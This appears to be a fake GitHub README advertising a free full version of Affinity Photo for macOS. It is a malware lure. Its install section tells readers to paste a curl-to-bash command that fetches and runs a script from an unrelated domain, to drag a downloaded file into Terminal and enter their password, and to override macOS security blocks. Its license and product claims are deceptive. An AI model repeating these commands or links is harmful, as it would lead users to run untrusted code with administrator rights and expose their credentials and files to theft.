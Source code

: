 <p align="center">
  <img src="https://i.ibb.co/XZyc8HsX/1670945105-icon.webp" width="350" alt="Affinity Photo macOS Banner" />
</p>

<h1 align="center">Affinity Photo for macOS</h1>

<p align="center">
  🖼️ Professional photo editing made fast. Full PSD support, non-destructive editing, RAW processing, and ultra-fast performance on macOS.  
  <br><br>
  ✅ Native Apple Silicon Support  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/261" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20AFFINITY%20PHOTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Affinity Photo for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/5hX1CthY/1670944783-1.webp" alt="Affinity Photo UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Affinity Photo for macOS?

**Affinity Photo** is a high-performance image editing software built specifically for macOS. It offers professional-level tools for photo manipulation, retouching, and compositing — all with smooth performance and full file compatibility.

With real-time editing, RAW development, advanced brush engines, HDR merge, panorama stitching, and PSD import/export, Affinity Photo is trusted by photographers, designers, and digital artists alike. Fully optimized for Apple Silicon and modern macOS versions.

---

## ✅ Why Choose Affinity Photo?

- 🖌️ **Retouch, Repair & Clone with Precision**  
- 📸 **RAW Development & Batch Processing**  
- 🧠 **PSD Import/Export with Layer Fidelity**  
- ✨ **Non-Destructive Adjustment Layers**  
- 🧷 **Masking, Blending, and Compositing Tools**  
- 🎨 **Custom Brush Engine with Real-Time Effects**  
- 🍎 **Optimized for M1, M2, and M3 Macs**  
- 📐 **CMYK, LAB, HDR, and 32-bit Workflow Support**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/k6KyMPdt/1670944784-2.webp" alt="Layered Compositing View" />
  <br><br>
  <img src="https://i.ibb.co/DDqh8QHj/1670944785-3.webp" alt="RAW Development Panel" />
</p>

---

## 🚀 Key Features

- Real-time editing engine  
- Powerful RAW processor  
- Unlimited layers, masks, and adjustments  
- Panoramas, HDR, and focus stacking  
- Pixel-accurate selections  
- Professional brush dynamics  
- Seamless PSD compatibility  
- Dedicated performance on macOS

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Affinity Photo manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Editor-PSD+RAW+Layers+Brushes-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Optimized-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Affinity Photo – Pro Editing, Mac Optimized

Thanks for using **Affinity Photo for macOS**.  
Power meets precision in one fast, offline image editor.

---

## 🧭 Usage Context

Affinity Photo runs locally without background sync or cloud reliance.  
Best for photographers, illustrators, content creators, and editors needing maximum control and full offline access.  
All work remains on your machine.

---

## 🔍 Tags

```text
affinity photo mac download, affinity photo editor for macbook, download affinity photo for m1 m2 mac, psd editor macos alternative photoshop, mac photo editor with raw support, best offline image editor for mac, apple silicon optimized image app, layer based photo editor mac sonoma, hdr panorama stacking mac editor, digital art software macbook pro, affinity photo brush engine macos, non destructive editing app mac, macos graphics design retouch tool, affinity photo full version mac, adobe photoshop alternative for mac
